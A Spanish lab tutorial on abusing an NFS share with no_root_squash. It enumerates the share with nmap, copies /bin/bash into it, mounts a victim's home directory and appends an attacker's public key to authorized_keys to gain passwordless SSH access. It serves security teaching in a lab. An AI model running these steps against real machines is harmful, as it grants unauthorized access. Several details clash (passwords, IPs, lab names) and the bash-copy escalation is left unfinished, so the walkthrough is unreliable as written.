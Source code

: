 # Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: Enumeración NFS. Ejercicio - Configuración de un share de NFS***.


## Convertirse en root por una NFS mal configurada.
Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
```
ls -l /datos
```

![propietaio de bash](../img/lab-04-D/202209101503.png)


El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir /tmp/directorio-home-de-la-victima
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.13:/home/vagrant /tmp/directorio-home-de-la-victima
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101822.png)

El punto de montaje se corresponde con el directorio raíz del usuario. Vamos a listarlo porque pretendemos encontrar un directorio muy "interesante" como muestra la imagen.
Nota: Mostramos archivos y carpetas ocultos.

```
ls -l -a /tmp/directorio-home-de-la-victima
```

![listado del home](../img/lab-30-D/202209101827.png)

El directorio oculto ***ssh*** almacena las claves ***públicas***, ***privadas*** y ***autorizadas*** para poder hacer un ***login ssh*** que no requiere contraseña.

Podemos ver los archivos que contiene de la siguiente forma.
```
sudo ls -a -l /tmp/directorio-home-de-la-victima/.ssh
```

La técnica que se usa es la de crear en la máquina de ataque una pareja de claves público/privada. A continuación (por tener permiso ***rw*** en el share) agregaremos la ***clave pública*** al archivo ***authorized_keys*** de la víctima.

Creamos la pareja de claves. En la máquina ***kali*** ejecutamos el comando.
Nota: Pulsamos ***ENTER*** por cada pregunta que nos formule.
```
ssh-keygen
```

El archivo que contiene la clave pública es.
```
ls ~/.ssh/id_rsa.pub
```

Y su contenido es.
```
cat ~/.ssh/id_rsa.pub
```

Ahora simplemente tenemos que añadir la ***clave pública*** al archivo ***authorized_keys*** de la víctima.
```
sudo sh -c "cat /home/antonio/.ssh/id_rsa.pub >>  /tmp/directorio-home-de-la-victima/.ssh/authorized_keys"
```

Podemos comprobar como se ha añadido la clave pública al final del archivo de claves autorizadas.
```
sudo cat /tmp/directorio-home-de-la-victima/.ssh/authorized_keys
```

Lo único que queda por hacer es comprobar que se puede acceder al equipo de la víctima por ***ssh***.
Nota: ***~/.ssh/id_rsa*** es el archivo que contiene la ***clave privada*** que hemos creado antes.
```
ssh -i ~/.ssh/id_rsa antonio@192.168.20.13
```

En la imagen podemos ver como se conecta a través de ***ssh***. Respondemos ***yes*** para realizar la conexión.

![ssh a la victima](../img/lab-30-D/202209101846.png)





